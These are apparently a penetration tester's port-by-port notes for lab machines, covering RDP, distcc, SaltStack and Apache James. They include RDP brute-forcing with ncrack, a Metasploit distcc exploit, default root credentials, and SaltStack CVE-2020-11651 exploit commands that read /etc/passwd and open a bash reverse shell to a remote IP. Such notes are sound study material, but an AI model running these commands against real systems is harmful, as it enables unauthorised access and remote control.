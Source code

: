 ## 3389-RDP
Remote Desktop Protocal
RCE vulnaerability, dos, ms12-020
```bash
#login
rdesktop -u guest -p guest 192.168.3.2 -g 90%

rdesktop -d xxx.com -u -p ip

xfreerdp

#brute force 
ncrack -vv --user Administrator -P password.txt rdp://192.168.3.2
```

## 3632-distcc
参考htb-lame
cve-2004-2687

```bash
msf5 > use exploit/unix/misc/distcc_exec
nmap -p 3632  <ip> --script distcc-exec --script-args="distcc-exec.cmd='id'"

```

## 4505/4506-ZeroMQ
+ zmtp 2.0, salt-api/3000-1, [available remote code execution exploit](https://github.com/dozernz/cve-2020-11651).

```bash
PORT     STATE SERVICE VERSION
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0

# pg-twiggy, cve-2020-11651
## https://github.com/jasperla/CVE-2020-11651-poc/blob/master/exploit.py
pyenv virtual-env twiggy
pyenv activate twiggy
python exploit.py -m 192.168.112.62 -r /etc/passwd
python exploit.py -m 192.168.112.62 --exec "bash -i >& /dev/tcp/192.168.49.112/8000 0>&1"

```

## 4555-rsip
RPC port 无结果时，可查看该端口
Apache James Server 2.3.2
RCE：https://www.exploit-db.com/exploits/35513

root:root default login
reset pwd and read email
